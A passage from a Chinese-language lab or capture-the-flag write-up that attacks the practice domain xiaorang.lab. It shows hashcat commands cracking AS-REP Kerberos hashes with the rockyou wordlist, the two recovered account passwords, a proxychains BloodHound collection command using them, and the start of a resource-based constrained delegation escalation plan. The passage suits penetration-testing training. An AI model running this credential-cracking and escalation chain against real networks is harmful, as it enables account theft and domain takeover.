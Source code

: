 用hashcat和kali自带的字典 rockyou 爆破一下

```
hashcat -m 18200 --force -a 0 '$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:91e6b6e8eca3c81e9ebc041af6fbe6c9$b1de5c61b73c01359b467a40d0ddf8819234b3f383462eec85dc510eb1c3af9ce6718c33a510a131874bea7e2f2651d7d3de029cdb2c6b6e762bebda4756af475bd4c6c06db8ba3944b1608a5e9e7c2bb312db138301a28abc71b8d6cff4e4dfca8e31746d8b1856fc3e3234526bf2b183b79b6b21da685d3db4466505164f8e8e1a5290cabb7ba03c87406fa6eb4c24328f0e40af722bddffb95dff6fb23f1efeb23d0c491d1462c09e952c2783ca3f9ff8bc3b1b8c065df2e7e179801242b1e1643d639b4c2a56ca7fda7df124689b4af63b6ddc30a07299cac1a8b45fe23a3e0ec5078c16ae75880f9ae8' ./rockyou.txt

hashcat -m 18200 --force -a 0 '$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:9159559ba318af794bad4ac369b60a1e$2dd93a8a64ff9e932b1707c3e2fbdd379ced93ffb975f5d7dd52b728e0f7dd0c0ea0cc7ffb924897a1a6c1bee062e1b2fb25431f45f4b44ad73a390269d5c5df8b74591b07db87cb22d0de7c5540996343304336da5b11c412b1613b8b2b59c774ce1c6cc99556b0c63484533be7790a058c994b3c9be8fdc780ff9ab5a1e0a0f2c560665dd221335baadb5eca7577290085079fe8cd9da81d7bcaae840133efad3de3698e4e43a617d0d8d9fcb981f9184f2ac639a65640774d409453ab4754d8107d89c12c1a41acf1b23c9bbcc8ec35743b746936a8d34ea3c031b274058826d48ee5ae7f954cb01770ac' ./rockyou.txt
```

得到明文密码

![image-20250331134720342](../assets/image-20250331134720342-1748854959640-12.png)

![image-20250331134802825](../assets/image-20250331134802825-1748854959640-13.png)

```
lixiuying@xiaorang.lab/winniethepooh
huachunmei@xiaorang.lab/1qaz2wsx
```

尝试一下rdp连接172.22.15.13

![image-20250331135007024](../assets/image-20250331135007024-1748854959640-17.png)

发现没有权限

那我们可以尝试拿这两个账户去连其他的机子

成功登上 172.22.15.35 

![image-20250331135150057](../assets/image-20250331135150057-1748854959640-14.png)

先用bloodhound信息收集一手

```
proxychains4 bloodhound-python -u lixiuying -p winniethepooh -d xiaorang.lab -c all -ns 172.22.15.13 --zip --dns-tcp
```

![image-20250402010432493](../assets/image-20250402010432493-1748854959640-16.png)

可以看到`LIXIUYING@XIAORANG.LAB` 对 `XR-0687.XIAORANG.LAB` 有 GenericWrite 的权限

可以通过修改目标的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性（配置 RBCD）获取目标 SYSTEM 权限

添加一个机器用户
